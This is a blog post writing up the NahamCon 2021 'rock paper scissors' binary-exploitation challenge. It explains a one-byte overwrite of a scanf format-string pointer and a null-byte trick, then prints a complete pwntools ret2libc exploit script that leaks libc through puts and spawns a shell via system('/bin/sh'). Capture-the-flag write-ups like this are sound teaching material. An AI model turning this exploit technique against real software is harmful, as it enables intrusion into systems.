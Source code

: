 ```yaml
---
layout: post
title: NahamCon 2021 rock paper scissors (pwn)
---
```


This weekend, there was a blue moon, so I figured I'd upload something to my blog again.

# Rock paper scissors
The program itself is straightforward. The user gets asked if they want to play rock, paper, scissors. The user can answer with y or n. If the user chooses to play, the program presents the user with 3 options: rock, paper or scissors. They can be selected through putting a number in for which option they'd like to choose. Next, the program will tell the user whether they lost or won, presumably based on a randomized guess from the computer and a simple logic check. Regardless, the user will be presented with the option to play again. This time, the user can fill in more than a character, namely "yes" or "no". If the user puts in "yes", the game starts again. If the user puts in anything else, the program exits.

<img src="{{ site.baseurl }}/images/rps1.png"/>

## Preliminary analysis
I started by running checksec on the binary. RELRO and NX were enabled, but stack canaries and PIE were not. This lead me to think that the vulnerability was a stack overflow one. The binary also came with a libc file, so the stack overflow would probably have to be chained with a libc memory address leak, forming a ret2libc exploit.

## The vulnerability
Opening the binary in Ghidra, we can see that the function containing the game loop gets the selected option from the user through a call to scanf(), meaning that at this time, this call is not vulnerable to any buffer overflows, since the format string only accepts integers. Unfortunately, this is the only function call that stores its input on the stack. Later on, the game asks whether the user wants to play again or not. This is done through a call to read(), which takes 0x19 bytes and stores it in a global variable in the .data section, meaning that it can not cause a stack buffer overflow. We will call the variable playAgainAnswer. The read() call's destination might have other things it can override that might be interesting to the attacker, though.

<img src="{{ site.baseurl }}/images/rps2.png"/>

The playAgainAnswer variable is located right before the pointer that points to the format string used in the scanf() call that gets the user's choice. The attacker can put in 0x19 bytes, which is just enough to overflow the least significant byte of the format string pointer. If there is a format string in memory that takes strings instead of integers, the pointer can be overwritten to use that instead. Right before the "%d" format string, there is in fact a "%s" string.

<img src="{{ site.baseurl }}/images/rps3.png"/>

One issue with this vulnerability is that the game loop needs to be run again after corrupting the format string pointer, but the playAgainAnswer needs to be "yes\n" in order for that to happen, which is not the case if we feed it the overflow payload. The function that is used to compare the strings is strcmp(), which stops comparing when the null byte is hit on both strings. One trick to bypass this is through null-byte poisoning. This means that the payload starts with "yes\n", followed by a null byte, which is followed by the payload.

## Crafting the exploit
After sending the payload, the user will again be presented with the prompt to select an option, only this time it can send whatever data it wants. The attacker can now overflow the buffer on the stack and gain control of the instruction pointer. Since there is no code that can be used to get a shell in the binary itself, I needed to craft a ret2libc exploit.

The first step is leaking the base address of libc. I started by building a payload that executes the puts() function, with the GOT address of puts as its argument, followed by a call to main(), which will effectively start the program from the beginning, allowing us to perform a second buffer overflow that gets us the shell. The libc file provided by the challenge can be used to get the proper offsets of the symbols to calculate the base address and the addresses of "/bin/sh" and system(). This worked locally, but not remotely for some reason. This was because the stack was not 16-bytes alligned. This was solved with a simple call to ret before executing the shell payload.

{% highlight python %}
from pwn import *

elf = context.binary = ELF("rps")
libc = ELF("./libc-2.31.so")

gs = '''
break *0x401452
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def set_scanf_d_to_s(p):
    payload = b"yes\n\x00" + b"A"*0x13 + b"\x08"
    time.sleep(0.2)
    p.sendline(b"y")
    time.sleep(0.2)
    p.sendline(b"1")
    time.sleep(0.2)
    p.sendline(payload)


# rop gadgets
poprdi = p64(0x401513)
putsgot = p64(0x403f98)
putsplt = p64(0x401100)
ret = p64(0x40101a)

main_addr = p64(0x401453)

leak_base_payload = b"A"*0x14 + poprdi + putsgot + putsplt + main_addr

p = start()

set_scanf_d_to_s(p)

time.sleep(0.2)
p.sendline(leak_base_payload)

time.sleep(0.2)
p.recvuntil(b"Would you like to play again? [yes/no]: ")
p.sendline(b"no")

# get leaked puts address from output
leak = p.recvuntil(b"How")
leak_offset = leak.find(b"]:") + 3
address = leak[leak_offset:-4]
puts_address = int.from_bytes(address, byteorder='little')

libc.address = puts_address - libc.symbols["puts"]
binsh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

shell_payload = b"A"*0x14 + ret + poprdi + p64(binsh) + p64(system)

set_scanf_d_to_s(p)

time.sleep(0.2)
p.sendline(shell_payload)

time.sleep(0.2)
p.recvuntil(b"Would you like to play again? [yes/no]: ")
p.sendline(b"no")

p.interactive()
{% endhighlight %}
